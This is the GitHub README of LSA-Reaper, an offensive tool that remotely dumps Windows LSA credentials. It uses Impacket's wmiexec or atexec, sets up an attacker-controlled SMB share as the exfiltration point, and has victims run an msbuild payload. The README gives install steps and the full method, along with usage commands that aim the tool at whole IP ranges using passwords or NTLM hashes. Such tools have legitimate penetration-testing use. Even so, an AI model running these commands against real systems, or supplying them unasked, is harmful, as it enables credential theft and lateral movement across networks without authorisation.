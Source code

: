 # LSA-Reaper
<p align="center">
  <img width="400" height="400" src="/assets/lsareaper.png">
</p>

LSA-Reaper is a remote command line LSA dumping tool that uses [Impacket's](https://github.com/SecureAuthCorp/impacket) wmiexec or atexec.

## Requirements
```
Linux
Impacket
pip pypykatz
pip netifaces
pip python-nmap
pip Pebble
Samba
```

## Installation
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo python3 -m pip install -r requirements.txt
cd ..
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 setup.py install
```
or
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo sh setup.sh
```

## Methodology
LSA-Reaper will begin by ping sweeping all provided IPs or IP ranges for alive hosts. LSA-Reaper will then create a SMB share with a random username and password that will act as the exfiltration point. LSA-Reaper will then execute the net use command on the victim machine via wmiexec or atexec to make the victim machine mount the share as a network drive and then execute msbuild to execute the payload which will dump LSA and save it to the mounted SMB share.

## Usage
```
sudo python3 lsa-reaper.py
```
![](/assets/hlp.png)

## Arguments
target - Target is a position argument formatted as domain/username:'Password'@IP for a domain account or username:'Password'@IP for a local machine account for both :'Password' is not required and if left empty will prompt for the account's password. Target is not required if -oe is present.

-share - Share is an optional argument for the wmiexec method to determine which share on the remote machine the output of wmiexec should be stored on and retrieved from.

-ts - ts or timestamp will add a timestamp to any output.

-debug - Debug is an optional argument that will turn debug output (more verbose) on.

-oe - oe is an optional argument that will cause LSA-Reaper to only create the payload, command, and SMB share. This argument is quite useful for when you want to use LSA-Reaper's payload and SMB share with another execution method that is not built in to LSA-Reaper such as Impacket's smbexec.py.

-ap - ap is an optional argument

## Examples
```
sudo python3 lsa-reaper.py domain/user:'Password'@ip

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.100

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.0/24

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.10-200

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@ipList.txt

sudo python3 lsa-reaper.py testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -hashes 'LMHASH:NTHASH' testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -ip local_ip testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -drive A testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -localauth localuser@10.0.0.100
```

![](/assets/Reaper-Running.png)

![](/assets/example.png)
